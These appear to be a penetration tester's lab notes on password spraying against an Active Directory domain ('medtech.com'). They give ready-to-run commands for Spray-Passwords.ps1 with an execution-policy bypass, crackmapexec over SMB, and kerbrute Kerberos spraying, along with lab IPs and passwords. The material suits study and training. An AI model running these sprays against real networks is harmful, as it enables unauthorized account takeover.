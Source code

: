```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 172.16.183.10-254
PASSWD: Flowers1
DOMAIN: medtech.com
USER: joe
---
```

Obtain accounts policy on PS:
```
net accounts
```


<font size=5>There are 3 approaches:</font>

1) LDAP and ADSI to perform a _low and slow_ password attack against AD users:
	- We can use Spray-Passwords.ps1 to spray passwords on valid users in the domain. The **-Pass** option allows us to set a single password to test, or we can submit a wordlist file using _-File_.
```
powershell -ep bypass
```
```
.\Spray-Passwords.ps1 -Pass [PASSWORD] -Admin
```

2) Leverage SMB:
	- for every authentication attempt, a full SMB connection has to be set up and then terminated. As a result, this kind of password attack is very noisy due to the generated network traffic. It is also quite slow in comparison to other techniques.

	- crackmapexec smb <span id="IP_TARGET"/>172.16.183.10-254<span type="end"/> -u users.txt -p '<span id="PASSWD"/>Flowers1<span type="end"/>' -d <span id="DOMAIN"/>medtech.com<span type="end"/> --continue-on-success

3) The third kind of password spraying attack we'll discuss is based on obtaining a TGT:
	- The advantage of this technique is that it only uses two UDP frames to determine whether the password is valid, as it sends only an AS-REQ and examines the response.
	- .\kerbrute_windows_amd64.exe passwordspray -d <span id="DOMAIN"/>medtech.com<span type="end"/> .\usernames.txt "<span id="PASSWD"/>Flowers1<span type="end"/>"


crackmapexec smb 192.168.181.95-97 -u <span id="USER"/>joe<span type="end"/> -p 'New2Era4.!' -d <span id="DOMAIN"/>medtech.com<span type="end"/> --continue-on-success